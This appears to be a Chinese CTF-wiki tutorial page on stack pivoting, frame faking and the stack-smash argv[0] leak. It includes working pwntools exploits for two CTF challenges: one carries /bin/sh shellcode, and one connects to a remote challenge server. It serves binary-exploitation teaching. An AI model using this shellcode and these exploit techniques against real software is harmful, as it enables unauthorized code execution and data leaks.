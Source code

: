 其它栈溢出技巧
==============

stack privot
============

原理
----

stack
privot，正如它所描述的，该技巧就是劫持栈指针指向攻击者所能控制的内存处。然后再在相应的位置进行ROP。一般来说，我们可能在以下情况需要使用stack
privot

-  可以控制的栈溢出的字节数较少，难以构造较长的ROP链
-  开启了PIE保护，栈地址未知，我们可以将栈劫持到已知的区域。
-  其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

此外，利用stack privot有以下几个要求

-  可以控制程序执行流。

-  可以控制sp指针。一般来说，控制栈指针会使用ROP，常见的控制栈指针的gadgets一般是

``assembly   pop rsp/esp``

当然，还会有一些其它的姿势。比如说libc\_csu\_init中的gadgets，我们通过偏移就可以得到控制rsp指针。上面的是正常的，下面的是偏移的。

``assembly   gef➤  x/7i 0x000000000040061a      0x40061a <__libc_csu_init+90>: pop    rbx      0x40061b <__libc_csu_init+91>: pop    rbp      0x40061c <__libc_csu_init+92>: pop    r12      0x40061e <__libc_csu_init+94>: pop    r13      0x400620 <__libc_csu_init+96>: pop    r14      0x400622 <__libc_csu_init+98>: pop    r15      0x400624 <__libc_csu_init+100>:    ret       gef➤  x/7i 0x000000000040061d      0x40061d <__libc_csu_init+93>: pop    rsp      0x40061e <__libc_csu_init+94>: pop    r13      0x400620 <__libc_csu_init+96>: pop    r14      0x400622 <__libc_csu_init+98>: pop    r15      0x400624 <__libc_csu_init+100>:    ret``

此外，还有更加高级的fake frame。

-  存在可以控制内容的内存，一般有如下
-  bss段。由于进程按页分配内存，分配给bss段的内存大小至少一个页(4k,0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且bss段分配的内存页拥有读写权限。
-  heap。但是这个需要我们能够泄露堆地址。

示例
----

例1
~~~

这里我们以\ **X-CTF Quals 2016 -
b0verfl0w**\ 为例，进行介绍。首先，查看程序的安全保护，如下

.. code:: shell

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

可以看出源程序为32位，也没有开启NX保护，下面我们来找一下程序的漏洞

.. code:: c

    signed int vul()
    {
      char s; // [sp+18h] [bp-20h]@1

      puts("\n======================");
      puts("\nWelcome to X-CTF 2016!");
      puts("\n======================");
      puts("What's your name?");
      fflush(stdout);
      fgets(&s, 50, stdin);
      printf("Hello %s.", &s);
      fflush(stdout);
      return 1;
    }

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack
privot。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode并执行。基本利用思路如下

-  利用栈溢出布置shellcode
-  控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

.. code:: assembly

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
    Gadgets information
    ============================================================
    0x08048504 : jmp esp
    0x0804836a : ret
    0x0804847e : ret 0xeac1

    Unique gadgets found: 3

这里我们发现有一个可以直接跳转到esp的gadgets。那么我们可以布置payload如下

.. code:: text

    shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp

那么我们payload中的最后一部分改如何设置esp呢，可以知道

-  size(shellcode+padding)=0x20
-  size(fake ebp)=0x4
-  size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

.. code:: assembly

    sub 0x28,esp
    jmp esp

所以最后的exp如下

.. code:: python

    from pwn import *
    sh = process('./b0verfl0w')

    shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode_x86 += "\x0b\xcd\x80"

    sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
    jmp_esp = 0x08048504
    payload = shellcode_x86 + (
        0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
    sh.sendline(payload)
    sh.interactive()

例2-转移堆
~~~~~~~~~~

待。

题目
----

-  EkoPartyCTF 2016 fuckzing-exploit-200

frame faking
============

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

原理
----

概括地讲，我们在之前讲的栈溢出不外乎两种方式

-  控制程序EIP
-  控制程序EBP

其最终都是控制程序的执行流。在frame
faking中，我们所利用的技巧便是同时控制EBP与EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其payload如下

::

    buffer padding|fake ebp|leave ret addr|

即我们利用栈溢出将栈上构造为如上格式。这里我们主要接下后面两个部分

-  函数的返回地址被我们覆盖为执行leave
   ret的地址，这就表明了函数在正常执行完自己的leave
   ret后，还会再次执行一次leave ret。
-  其中fake
   ebp为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

::

    fake ebp
    |
    v
    ebp2|target function addr|leave ret addr|arg1|arg2

这里我们的fake
ebp指向ebp2，即它为ebp2所在的地址。通常来说，这里都是我们能够控制的可读的内容。在我们介绍基本的控制过程之前，我们还是有必要说一下，函数的入口点与出口点的基本操作

入口点

::

    push ebp  # 将ebp压栈
    move esp, ebp #将esp的值赋给ebp

出口点

::

    leave
    ret #pop eip，弹出栈顶元素作为程序下一个执行地址

其中leave指令相当于

::

    move ebp, esp # 将ebp的值赋给esp
    pop ebp #弹出ebp

下面我们来仔细说一下基本的控制过程。

1. 在有栈溢出的程序执行leave时，其分为两个步骤

-  move ebp, esp ，这会将esp也指向当前栈溢出漏洞的ebp基地址处。
-  pop ebp， 这会将栈中存放的fake
   ebp的值赋给ebp。即执行完指令之后，ebp便指向了ebp2，也就是保存了ebp2所在的地址。

2. 执行ret指令，会再次执行leave ret指令。

3. 执行leave指令，其分为两个步骤

-  move ebp, esp ，这会将esp指向ebp2。
-  pop ebp，此时，会将ebp的内容设置为ebp2的值，同时esp会指向target
   function。

4. 执行ret指令，这时候程序就会执行targetfunction，当其进行程序的时候会执行

-  push ebp,会将ebp2值压入栈中，

-  move esp, ebp，将ebp指向当前基地址。

   此时的栈结构如下

   ``ebp  |  v  ebp2|leave ret addr|arg1|arg2``

5. 当程序执行师，其会正常申请空间，同时我们在栈上也安排了该函数对应的参数，所以程序会正常执行。

6. 程序结束后，其又会执行两次 leave ret
   addr，所以如果我们在ebp2处布置好了对应的内容，那么我们就可以一直控制程序的执行流程。

可以看出在fake
frame中，我们有一个需求就是，我们必须得有一块可以写的内存，并且我们还知道这块内存的地址，这一点与stack
privot相似。

例子
----

目前来说，我在exploit-exercise的fusion
level2中利用过这个技巧，其它地方暂时还未遇到，遇到的时候再进行补充。

题目
----

参考阅读

-  http://www.xfocus.net/articles/200602/851.html
-  http://phrack.org/issues/58/4.html

Stack smash
===========

原理
----

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack
smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行\_\_stack\_chk\_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

.. code:: c

    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
      __fortify_fail ("stack smashing detected");
    }
    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
      /* The loop is added only to keep gcc happy.  */
      while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在\_\_fortify\_fail函数中就会输出我们想要的信息。

例子
----

这里，我们以2015年32C3 CTF
smashes为例进行介绍，该题目在jarvisoj上有复现。

确定保护
~~~~~~~~

可以看出程序为64位，主要开启了Canary保护以及NX保护，以及FORTIFY保护。

.. code:: shell

    ➜  stacksmashes git:(master) ✗ checksec smashes
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled

分析程序
~~~~~~~~

ida看一下

.. code:: c

    __int64 sub_4007E0()
    {
      __int64 v0; // rax@1
      __int64 v1; // rbx@2
      int v2; // eax@3
      __int64 v4; // [sp+0h] [bp-128h]@1
      __int64 v5; // [sp+108h] [bp-20h]@1

      v5 = *MK_FP(__FS__, 40LL);
      __printf_chk(1LL, (__int64)"Hello!\nWhat's your name? ");
      LODWORD(v0) = _IO_gets((__int64)&v4);
      if ( !v0 )
    LABEL_9:
        _exit(1);
      v1 = 0LL;
      __printf_chk(1LL, (__int64)"Nice to meet you, %s.\nPlease overwrite the flag: ");
      while ( 1 )
      {
        v2 = _IO_getc(stdin);
        if ( v2 == -1 )
          goto LABEL_9;
        if ( v2 == '\n' )
          break;
        byte_600D20[v1++] = v2;
        if ( v1 == ' ' )
          goto LABEL_8;
      }
      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));
    LABEL_8:
      puts("Thank you, bye!");
      return *MK_FP(__FS__, 40LL) ^ v5;
    }

很显然，程序在\_IO\_gets((\_\_int64)&v4);存在栈溢出。

此外，程序中还提示要overwrite
flag。而且发现程序很有意思的在while循环之后执行了这条语句

.. code:: c

      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));

又看了看对应地址的内容，可以发现如下内容，说明程序的flag就在这里啊。

::

    .data:0000000000600D20 ; char aPctfHereSTheFl[]
    .data:0000000000600D20 aPctfHereSTheFl db 'PCTF{Here',27h,'s the flag on server}',0

但是如果我们直接利用栈溢出输出该地址的内容是不可行的，这是因为我们读入的内容\ ``byte_600D20[v1++] = v2;``\ 也恰恰就是该块内存，这会直接将其覆盖掉，这时候我们就需要利用一个技巧了

-  在EFL内存映射时，bss段会被映射两次，所以我们可以使用另一处的地址来进行输出，可以使用gdb的find来进行查找。

确定flag地址
~~~~~~~~~~~~

我们把断点下载memset函数处，然后读取相应的内容如下

.. code:: shell

    gef➤  c
    Continuing.
    Hello!
    What's your name? qqqqqqq
    Nice to meet you, qqqqqqq.
    Please overwrite the flag: 222222222

    Breakpoint 1, __memset_avx2 () at ../sysdeps/x86_64/multiarch/memset-avx2.S:38
    38  ../sysdeps/x86_64/multiarch/memset-avx2.S: 没有那个文件或目录.
    ─────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7b7f920 <__memset_chk_avx2+0> cmp    rcx, rdx
       0x7ffff7b7f923 <__memset_chk_avx2+3> jb     0x7ffff7b24110 <__GI___chk_fail>
       0x7ffff7b7f929                  nop    DWORD PTR [rax+0x0]
     → 0x7ffff7b7f930 <__memset_avx2+0> vpxor  xmm0, xmm0, xmm0
       0x7ffff7b7f934 <__memset_avx2+4> vmovd  xmm1, esi
       0x7ffff7b7f938 <__memset_avx2+8> lea    rsi, [rdi+rdx*1]
       0x7ffff7b7f93c <__memset_avx2+12> mov    rax, rdi
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffda38', 'l8']
    8
    0x00007fffffffda38│+0x00: 0x0000000000400878  →   mov edi, 0x40094e  ← $rsp
    0x00007fffffffda40│+0x08: 0x0071717171717171 ("qqqqqqq"?)
    0x00007fffffffda48│+0x10: 0x0000000000000000
    0x00007fffffffda50│+0x18: 0x0000000000000000
    0x00007fffffffda58│+0x20: 0x0000000000000000
    0x00007fffffffda60│+0x28: 0x0000000000000000
    0x00007fffffffda68│+0x30: 0x0000000000000000
    0x00007fffffffda70│+0x38: 0x0000000000000000
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7b7f930 → Name: __memset_avx2()
    [#1] 0x400878 → mov edi, 0x40094e
    ──────────────────────────────────────────────────────────────────────────────
    gef➤  find 22222
    Argument required (expression to compute).
    gef➤  find '22222'
    No symbol "22222" in current context.
    gef➤  grep '22222'
    [+] Searching '22222' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x600000-0x601000), permission=rw-
      0x600d20 - 0x600d3f  →   "222222222's the flag on server}" 
    [+] In '[heap]'(0x601000-0x622000), permission=rw-
      0x601010 - 0x601019  →   "222222222" 
    gef➤  grep PCTF
    [+] Searching 'PCTF' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x400000-0x401000), permission=r-x
      0x400d20 - 0x400d3f  →   "PCTF{Here's the flag on server}" 

可以看出我们读入的2222已经覆盖了0x600d20处的flag，但是我们在内存的0x400d20处仍然找到了这个flag的备份，所以我们还是可以将其输出。这里我们已经确定了flag的地址。

确定偏移
~~~~~~~~

下面，我们确定argv[0]距离读取的字符串的偏移。

首先下断点在main函数入口处，如下

.. code:: shell

    gef➤  b *0x00000000004006D0
    Breakpoint 1 at 0x4006d0
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

    Breakpoint 1, 0x00000000004006d0 in ?? ()
     code:i386:x86-64 ]────
         0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
         0x4006c6 <_IO_gets@plt+6> push   0x9
         0x4006cb <_IO_gets@plt+11> jmp    0x400620
     →   0x4006d0                  sub    rsp, 0x8
         0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
         0x4006db                  xor    esi, esi
         0x4006dd                  call   0x400660 <setbuf@plt>
    ──────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb78', 'l8']
    8
    0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax    ← $rsp
    0x00007fffffffdb80│+0x08: 0x0000000000000000
    0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
    0x00007fffffffdb90│+0x18: 0x0000000100000000
    0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
    0x00007fffffffdba0│+0x28: 0x0000000000000000
    0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
    0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
    ──────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x4006d0 → sub rsp, 0x8
    [#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
    ---Type <return> to continue, or q <return> to quit---
    [#2] 0x400717 → hlt 

可以看出0x00007fffffffe00b指向程序名，其自然就是argv[0]，所以我们修改的内容就是这个地址。同时0x00007fffffffdc58处保留着该地址，所以我们真正需要的地址是0x00007fffffffdc58。

此外，根据汇编代码

.. code:: assembly

    .text:00000000004007E0                 push    rbp
    .text:00000000004007E1                 mov     esi, offset aHelloWhatSYour ; "Hello!\nWhat's your name? "
    .text:00000000004007E6                 mov     edi, 1
    .text:00000000004007EB                 push    rbx
    .text:00000000004007EC                 sub     rsp, 118h
    .text:00000000004007F3                 mov     rax, fs:28h
    .text:00000000004007FC                 mov     [rsp+128h+var_20], rax
    .text:0000000000400804                 xor     eax, eax
    .text:0000000000400806                 call    ___printf_chk
    .text:000000000040080B                 mov     rdi, rsp
    .text:000000000040080E                 call    __IO_gets

我们可以确定我们读入的字符串的起始地址其实就是调用\_\_IO\_gets之前的rsp，所以我们把断点下在call处，如下

.. code:: assembly

    gef➤  b *0x000000000040080E
    Breakpoint 2 at 0x40080e
    gef➤  c
    Continuing.
    Hello!
    What's your name? 
    Breakpoint 2, 0x000000000040080e in ?? ()
    ──────────────────────────[ code:i386:x86-64 ]────
         0x400804                  xor    eax, eax
         0x400806                  call   0x4006b0 <__printf_chk@plt>
         0x40080b                  mov    rdi, rsp
     →   0x40080e                  call   0x4006c0 <_IO_gets@plt>
       ↳    0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
            0x4006c6 <_IO_gets@plt+6> push   0x9
            0x4006cb <_IO_gets@plt+11> jmp    0x400620
            0x4006d0                  sub    rsp, 0x8
    ──────────────────[ stack ]────
    ['0x7fffffffda40', 'l8']
    8
    0x00007fffffffda40│+0x00: 0x0000ff0000000000     ← $rsp, $rdi
    0x00007fffffffda48│+0x08: 0x0000000000000000
    0x00007fffffffda50│+0x10: 0x0000000000000000
    0x00007fffffffda58│+0x18: 0x0000000000000000
    0x00007fffffffda60│+0x20: 0x0000000000000000
    0x00007fffffffda68│+0x28: 0x0000000000000000
    0x00007fffffffda70│+0x30: 0x0000000000000000
    0x00007fffffffda78│+0x38: 0x0000000000000000
    ───────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x40080e → call 0x4006c0 <_IO_gets@plt>
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  print $rsp
    $1 = (void *) 0x7fffffffda40

可以看出rsp的值为0x7fffffffda40，那么相对偏移为

.. code:: python

    >>> 0x00007fffffffdc58-0x7fffffffda40
    536
    >>> hex(536)
    '0x218'

利用程序
~~~~~~~~

我们构造利用程序如下

.. code:: python

    from pwn import *
    context.log_level = 'debug'
    smash = ELF('./smashes')
    if args['REMOTE']:
        sh = remote('pwn.jarvisoj.com', 9877)
    else:
        sh = process('./smashes')
    argv_addr = 0x00007fffffffdc58
    name_addr = 0x7fffffffda40
    flag_addr = 0x600D20
    another_flag_addr = 0x400d20
    payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
    sh.recvuntil('name? ')
    sh.sendline(payload)
    sh.recvuntil('flag: ')
    sh.sendline('bb')
    data = sh.recv()
    sh.interactive()

这里我们直接就得到了flag，没有出现网上说的得不到flag的情况。

题目
----
